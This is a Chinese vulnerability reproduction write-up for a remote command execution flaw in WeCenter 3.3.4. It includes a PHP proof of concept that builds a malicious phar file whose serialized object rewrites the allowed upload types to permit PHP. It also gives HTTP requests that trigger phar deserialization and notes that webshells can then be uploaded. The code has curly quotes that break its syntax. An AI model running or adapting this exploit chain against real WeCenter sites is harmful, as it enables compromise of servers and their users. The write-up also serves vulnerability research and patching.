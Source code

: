 ```yaml
---
title: WeCenter 3.3.4 远程命令执行
id: zhfly3237
---
```


# WeCenter 3.3.4 远程命令执行

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 远程命令执行

**WeCenter** 后台的 **允许的附件文件类型** 处，设置了用户可上传的文件类型后缀。而这个配置是写在数据库中的，我们可以利用前面的任意 **SQL** 语句执行的 **POP** 链，往字段中添加 **php** 文件后缀。

![image](../img/fb5ef5bb78f171641a3ba8e9777b23c5.png)

### poc

```
<?php
class AWS_MODEL
{
    private $_shutdown_query = array();

```
public function __construct($_shutdown_query)
{
    $this-&gt;_shutdown_query = $_shutdown_query;
} 
```

} `$sql = array(‘update aws_system_setting set value=‘s:45:“jpg,jpeg,png,gif,zip,doc,docx,rar,pdf,psd,php”;’ where varname=‘allowed_upload_types’’);

$evilobj = new AWS_MODEL($sql);

// phar.readonly无法通过该语句进行设置: init_set(“phar.readonly”,0);

$filename = ‘poc.phar’;// 后缀必须为phar，否则程序无法运行

file_exists($filename) ? unlink($filename) : null;

$phar=new Phar($filename);

$phar->startBuffering();

$phar->setStub(“GIF89a<?php __HALT_COMPILER(); ?>”);

$phar->setMetadata($evilobj);

$phar->addFromString(“foo.txt”,“bar”);

$phar->stopBuffering();

?>` 
```

### 利用

这里以 **RCE** 利用为例子。我们先用上面的 **EXP** 生成文件，然后找个可以上传文件的地方。这里要注意，一定不要选择在用户头像处上传。这里我们通过发起问题的地方来上传文件。

![image](../img/5542c4ea04a0d5a3423357a84abedbd1.png)

通过如下数据包，将 **headimgurl** 插入数据库中（ **Cookie** 前缀每个网站都不一样，修改成自己的即可）。

```
GET /wecenter334/?/m/weixin/binding/ HTTP/1.1
Host: 0.0.0.0
Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=akl7d5skae6ebea69bp8r1b4f0; CNZZDATA1273638993=564846603-1579067041-%7C1579097763; xhj__user_login=NcIFvaZbkaxoQfofEGo%2FSOCyrXq5R0lZofmF9uqaJHO5tpVyag7GEP3fdh9hKvPUf8Xj4x3kkxgLXcf1L4wocSQu9BUquhozfdiEN2Hfg8vj73XVn1f09yLfbpfbVs7K; xhj__WXConnect={"access_token":{"openid":1},"access_user":{"headimgurl":"phar:\/\/uploads\/question\/20200116\/f39510a7e8e47e3e4dcabbadeedd12f7.gif","nickname":"mochazz"}}
Connection: close
$wx = array(
    'access_token' => array('openid'=>1),
    'access_user'  => array('headimgurl'=>'phar:///uploads/question/20200116/f39510a7e8e47e3e4dcabbadeedd12f7.gif','nickname'=>'mochazz')
);
echo json_encode($wx); 
```

接着通过如下数据包触发 **phar反序列化** 执行 **SQL** 语句。

```
GET /wecenter334/?/account/ajax/synch_img/ HTTP/1.1
Host: 0.0.0.0
Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=qb72k9k1sl53gqibbg53nf32o1; CNZZDATA1273638993=564846603-1579067041-%7C1579137884; xhj__user_login=N9hSYaQOjPMdtxOXo9jQuCVQSykmK88gl3DTI4AmL%2BnhLpgnHFGGSHkzxAPYaVMbXo%2FAndADc%2FaD0wytUEK71YrLmxWCuEZDCSwn9b0ApyOpcIKa6E4cOotHqZpZwVq%2B
Connection: close 
```

现在，我们就可以随意上传 **webshell** 了。

![image](../img/76403d258224243ddddc1f8950ac03b6.png)

![image](../img/84c10eaf6a8bd73017f67cdb125cac76.png)